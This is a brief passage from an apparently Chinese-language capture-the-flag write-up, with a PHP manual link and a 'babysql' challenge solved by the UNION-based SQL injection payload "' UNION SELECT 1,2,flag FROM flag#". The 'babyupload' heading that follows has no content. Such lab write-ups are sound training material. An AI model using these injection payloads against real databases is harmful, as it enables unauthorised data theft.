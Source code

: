 ![](wp2019/截屏2021-10-07%2016.09.12.png)

参考连接 https://www.php.net/manual/zh/language.variables.variable.php

# babysql

flag在flag表flag列

推测其users表一共由三列

传入`' UNION SELECT 1,2,flag FROM flag#`得到flag

# babyupload
